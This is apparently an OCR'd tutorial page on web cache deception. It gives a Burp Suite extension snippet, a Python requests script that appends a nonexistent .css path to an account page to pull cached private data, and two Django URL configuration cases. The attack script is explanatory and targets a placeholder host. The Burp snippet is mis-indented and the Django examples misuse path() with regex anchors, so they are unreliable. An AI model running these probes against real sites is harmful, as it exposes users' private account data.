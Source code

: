 **Scan various requests using the Web Cache Deception tool,** Using the Web Cache Deception Burp Suite extension, the attacker can scan and analyze requests. Here's a sample Python script using the [Burp Suite Python API](https://github.com/PortSwigger/burp-api-python) to send a request and analyze the response:

```python
from burp import IBurpExtender, IHttpRequestResponse
import re

class BurpExtender(IBurpExtender):
    def processHttpMessage(self, tool_name, is_request, message):
        if is_request:
            response = self._burp.makeHttpRequest(message)

            # Check if the response contains sensitive information
if "sensitive_info" in response.getBody():
                print("Sensitive information found!")

```

**Try to exploit the vulnerability manually**, The attacker crafts a request with an appended nonexistent file to exploit the vulnerability:

```python
import requests

# The attacker sends a request with an appended nonexistent file
response = requests.get("http://www.example.com/account.php/nonexistent.css")

# Check if the response contains the sensitive information
if "sensitive_info" in response.text:
    print("Exploit successful! Sensitive information retrieved.")
else:
    print("Exploit unsuccessful.")

```

**Django URL Configuration Examples:**

Case 1:

```python
"""mysite URL Configuration[...]"""
from django.contrib import admin
from django.urls import path

urlpatterns = [
    path('^profile/', admin.site.urls),
]

```

Case 2:

```python
"""mysite URL Configuration[...]"""
from django.contrib import admin
from django.urls import path

urlpatterns = [
    path('^profile', admin.site.urls),
]

```
